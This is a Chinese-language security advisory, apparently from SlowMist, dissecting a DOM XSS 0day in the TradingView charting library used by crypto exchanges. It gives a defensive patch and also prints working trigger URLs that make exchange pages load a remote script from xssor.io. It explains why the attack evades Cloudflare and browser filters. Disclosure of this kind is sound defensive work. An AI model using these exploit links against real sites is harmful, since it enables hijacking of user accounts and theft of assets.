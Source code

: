 余弦@慢雾安全团队

# 引子

慢雾区前后两位白帽黑客给我们反馈了这个 XSS 0day，第一位反馈的很早，但他自己把这个漏洞危害等级定义为低危，我们服务的交易所平台修复后，我们也没特别在意，直到第二位给我们再次提及这个 XSS。

昨天，我们开始对我们服务的所有客户下发这个预警，内容：

```
#0day 漏洞预警#
根据慢雾区匿名情报，通用 K 线展示 JS 库 TradingView 存在 XSS 0day 漏洞，可绕过 Cloudflare 等防御机制。该漏洞被利用会导致用户帐号权限被盗、恶意操作等造成资产损失。请确认是否使用到该组件，如有使用到请与我们联系。
```

当确定我们的客户修复后，我们开始对外发声，但隐去了存在漏洞的具体组件：TradingView。今天我们发现漏洞细节已经开始失控，特出此文，针对这个漏洞做个剖析。

# 防御方案

我们先给出当时我们同步给我们客户的临时快速解决方案：

```
TradingView 库 bundles 目录下有个 library 开头的 js 文件，检查这个文件是否存在漏洞代码：getScript(urlParams.indicatorsFile)

如果存在，临时解决方案可以把代码改为：getScript("")，如有问题和我们反馈。
```

聪明的前端黑只要看了防御方案就会知道怎么去构造这个利用。

# 漏洞细节

TradingView 是做 K 线展示最流行的 JS 库，在数字货币交易所、股票交易所等都有大量使用，所以影响目标很好找到。有个测试目标后，我们直接来看触发链接，随便找两个：

```
https://exchange.xxx.com/charting_library/static/tv-chart.0fe96f4607a34f9418bc.html#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=https://xssor.io/s/x.js&localserver=1&symbol=BTCUSDT&interval=1&widgetbar=%7B%22details%22%3Afalse%2C%22watchlist%22%3Afalse%2C%22watchlist_settings%22%3A%7B%22default_symbols%22%3A%5B%5D%7D%7D&timeFrames=%5B%7B%22text%22%3A%225y%22%2C%22resolution%22%3A%22W%22%7D%2C%7B%22text%22%3A%221y%22%2C%22resolution%22%3A%22W%22%7D%2C%7B%22text%22%3A%226m%22%2C%22resolution%22%3A%22120%22%7D%2C%7B%22text%22%3A%223m%22%2C%22resolution%22%3A%2260%22%7D%2C%7B%22text%22%3A%221m%22%2C%22resolution%22%3A%2230%22%7D%2C%7B%22text%22%3A%225d%22%2C%22resolution%22%3A%225%22%7D%2C%7B%22text%22%3A%221d%22%2C%22resolution%22%3A%221%22%7D%5D&locale=en&uid=tradingview_0f140&clientId=0&userId=0&chartsStorageVer=1.0&debug=false&timezone=Asia%2FShanghai

https://cn.xxx.com/lib/charting_library/charting_library/static/tv-chart.630b704a2b9d0eaf1593.html#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=https://xssor.io/s/x.js&localserver=1&symbol=coin-usdt-btc&interval=30&toolbarbg=02112C&widgetbar=%7B%22details%22%3Afalse%2C%22watchlist%22%3Afalse%2C%22watchlist_settings%22%3A%7B%22default_symbols%22%3A%5B%5D%7D%7D&drawingsAccess=%7B%22type%22%3A%22black%22%2C%22tools%22%3A%5B%7B%22name%22%3A%22Regression%20Trend%22%7D%5D%7D&timeFrames=%5B%7B%22text%22%3A%225y%22%2C%22resolution%22%3A%22W%22%7D%2C%7B%22text%22%3A%221y%22%2C%22resolution%22%3A%22W%22%7D%2C%7B%22text%22%3A%226m%22%2C%22resolution%22%3A%22120%22%7D%2C%7B%22text%22%3A%223m%22%2C%22resolution%22%3A%2260%22%7D%2C%7B%22text%22%3A%221m%22%2C%22resolution%22%3A%2230%22%7D%2C%7B%22text%22%3A%225d%22%2C%22resolution%22%3A%225%22%7D%2C%7B%22text%22%3A%221d%22%2C%22resolution%22%3A%221%22%7D%5D&locale=zh&uid=tradingview_2c0fa&clientId=0&userId=public_user_id&chartsStorageVer=1.0&customCSS=style.css&debug=false&timezone=Asia%2FShanghai
```

通过分析，触发最小简化的链接是：

```
https://cn.xxx.com/lib/charting_library/charting_library/static/tv-chart.630b704a2b9d0eaf1593.html#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=https://xssor.io/s/x.js
```

必须存在三个参数：

disabledFeatures
enabledFeatures
indicatorsFile

indicatorsFile 很好理解，而且利用逻辑非常简单，代码所在位置：TradingView 库 bundles 目录下有个 library 开头的 js 文件，触发点如下：

```JavaScript
D ? $.getScript(urlParams.indicatorsFile).done(function () {});
```

$.getScript 非常的熟悉了，在 jQuery 时代就已经实战了多次，这个函数核心代码是：


```JavaScript
xt.ajaxTransport("script", function (e) {
    if (e.crossDomain) {
        var t, n = bt.head || bt.getElementsByTagName("head")[0] || bt.documentElement;
        return {
            send: function (r, o) {
                t = bt.createElement("script"), t.async = "async", e.scriptCharset && (t.charset = e.scriptCharset), t.src = e.url, t.onload = t.onreadystatechange = function (e, r) {
                    (r || !t.readyState || /loaded|complete/.test(t.readyState)) && (t.onload = t.onreadystatechange = null, n && t.parentNode && n.removeChild(t), t = void 0, r || o(200, "success"))
                }, n.insertBefore(t, n.firstChild)
            },
            abort: function () {
                t && t.onload(0, 1)
            }
        }
    }
})
```

看代码，可以动态创建一个 script 标签对象，远程加载我们提供的 js 文件：

```
https://xssor.io/s/x.js
```

那么，另外两个参数（disabledFeatures 与 enabledFeatures）为什么是必要的？继续看代码（同样是 library 开头的那个 js 文件）：

```JavaScript
function e() {
    JSON.parse(urlParams.disabledFeatures).forEach(function (e) {
        t.setEnabled(e, !1)
    }), JSON.parse(urlParams.enabledFeatures).forEach(function (e) {
        t.setEnabled(e, !0)
    })
}

e(),
```

这段代码在触发点之前，如果没有提供合法的 disabledFeatures 及 enabledFeatures 参数格式，这段代码就会因为报错而没法继续。很容易知道，合法参数格式只要满足这两个参数是 JSON 格式即可。所以，最终利用链接是：

```
https://cn.xxx.com/lib/charting_library/charting_library/static/tv-chart.630b704a2b9d0eaf1593.html#disabledFeatures=[]&enabledFeatures=[]&indicatorsFile=https://xssor.io/s/x.js
```

# 漏洞威力

为什么我们会说这个 XSS 可以绕过 Cloudflare 等防御机制？这个“等”其实还包括了浏览器内置的 XSS 防御机制。原因很简单，因为这是一个 DOM XSS，DOM XSS 的优点是不需要经过服务端，不用面对服务端的防御机制，同时不会在服务端留下日志（除非自己特别去处理）。也正是因为这是 DOM XSS 且非常简单的触发方式，浏览器端的 XSS 防御机制也没触发。

然后这个 XSS 的触发域和目标重要业务所在的域几乎没有做什么分离操作，利用代码其实非常好写，比如直接基于 $ 里的一堆方法就可以轻易获取目标平台的目标用户隐私，甚至偷偷发起一些高级操作。

有经验的攻击者，是知道如何大批量找到目标的，然后写出漂亮的利用代码。这里就不展开了。

最后做个补充：

前端黑里，需要特别去做好的安全有：XSS、CSRF、CORS、Cookie 安全、HTTP 响应头安全、第三方 js 安全、第三方 JSON 安全、HTTPS/HSTS 安全、本地储存安全等。可以查看这篇近一步了解：

杂谈区块链生态里的前端黑
https://mp.weixin.qq.com/s/d_4gUc3Ay_He4fintNXw6Q